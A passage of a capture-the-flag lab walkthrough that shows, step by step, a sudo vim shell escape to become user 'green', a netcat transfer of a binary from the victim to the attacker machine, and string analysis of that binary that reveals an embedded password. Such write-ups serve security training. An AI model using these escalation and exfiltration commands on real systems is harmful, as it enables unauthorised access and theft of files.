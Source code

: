 `sudo -u green vim -c ':!/bin/bash'`

![Victim: green](https://img.shields.io/badge/Victim-green-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
green ←
```

`cd /home/green`

`ls -alps`:
```
total 48
 4 drwx------ 2 green green  4096 Oct  1 11:10 ./
 4 drwxr-xr-x 6 root  root   4096 Jan 27  2023 ../
 0 lrwxrwxrwx 1 root  root      9 Feb 11  2023 .bash_history -> /dev/null
 4 -rwx------ 1 green green   220 Jan 27  2023 .bash_logout
 4 -rwx------ 1 green green  3526 Jan 27  2023 .bashrc
 4 -rwx------ 1 green green   807 Jan 27  2023 .profile
 4 -rw------- 1 green green   533 Oct  1 11:10 .viminfo
 4 -rw-r--r-- 1 root  root    145 Feb 11  2023 note.txt
20 -rwxr-xr-x 1 root  root  16928 Feb 11  2023 test_4_green ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 6666 > ./test_4_green`:
```
listening on [any] 6666 ... ←
```

![Victim: green](https://img.shields.io/badge/Victim-green-64b5f6?logo=linux&logoColor=white)

`cat ./test_4_green | nc 192.168.56.118 6666`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.130] 77896 ←
```

`file ./test_4_green`:
```
test_4_green: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9496189c225509b7a26fbf1a874b3edeb9be0859, for GNU/Linux 3.2.0, not stripped ←
```

`strings ./test_4_green`:
```
[...]

Guess the number im thinking: 
Correct!! Here is the pass: ←
Nope, sorry
FuprpRblcTzeg5JDNNasqeWKpFHvms4rMgrpAFYj5Zngqgvl7jK0iPpViDReY6nognFSGKtS4zTEiVPgzDXnPj06WsScYlt0EFryMGvP8SjVsg9YjmxTeHkXUdzliZK8zqVCv2pZnGJ7L8e6DCsDPjNvjkVYR3WiRhf9jXCRKMGvP8SjVsg9YjmxTeHkXUdzkiZK8zqaCv2pZnGJ7L8e6DCsDPjNvjkVYR3WiRhf9jXCRKMGvP8SjVsg9YjmxTeHkXUdzkiZK8zqVCv2pZnGJ7L8e6DCsDPjNvjkVYR3WiRhf9jXCRKhaAWAR7kxJC8METsFLehuWd43P8kj2z2uyEBDD3dGEGdisWzwcSMBj6oh4R9HBDEJVr23haAWAR7kxJC8METFFLehuWd43P8kj2z2uyEBDD3dGEGdisWzwcSMBj6oh4R9HBDEJVr23

[...]
```
